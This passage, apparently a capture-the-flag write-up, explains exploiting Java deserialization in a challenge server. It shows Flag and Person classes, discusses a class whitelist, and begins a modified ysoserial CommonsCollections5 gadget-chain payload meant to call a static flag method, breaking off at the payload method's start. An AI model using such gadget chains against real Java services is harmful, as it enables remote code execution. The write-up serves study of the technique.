 ```java
    }
    return super.resolveClass(des);
  }
}

```

```java
// Person.java and jail/Flag.java
public class Person implements Serializable {
  public String name;
  
  public Person(String name) {
    this.name = name;
  }
}
                                                                                                                                                                                                                     
public class Flag implements Serializable {
  static final long serialVersionUID = 6119813099625710381L;
  
  public Flag() {}
  
  public static void getFlag() throws Exception { throw new Exception("<FLAG GOES HERE>"); }
}

```

I use [jd-gui](http://jd.benow.ca/) to decompile the java class files.

The objective is to invoke `Flag.getFlag()`. However, it's tricky because:

1. getFlag() is static (class method)
2. Server.java only accesses the member `person.name`.
3. The server doesn't invoke any other method.

So we quickly realize it's not possible to call `getFlag()`. We need RCE / more powerful exploit.

We note that the `CustomOIS.java` uses a whitelist to check the resolved class name, but it's really suspicous because some weird classes are in the whiltelist, like `javax.management.BadAttributeValueExpException`.

With a quick Google we found [ysoserial](https://github.com/frohoff/ysoserial) can generate RCE payload for `commons-collections:3.1`, which is the dependency of the server. 

Actually the `CommonsCollections5` utilizes those classes in the whitelist to trigger RCE, but `Java.lang.Runtime` is not in the whilelist. I think it's not able to RCE.

Though we cannot call `Runtime.exec()`, at least we can try to invoke `Flag.getFlag()`.

Here is the modified version of [CommonCollection5.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java):

```java
// Some of the code is omitted.
...

import java.io.Serializable;
class Flag implements Serializable {
  static final long serialVersionUID = 6119813099625710381L;
  public Flag() {}
  public static void getFlag() throws Exception { throw new Exception("<FLAG GOES HERE>"); }                                             
}

public class CommonsCollections5 extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {

  public BadAttributeValueExpException getObject(final String command) throws Exception {
```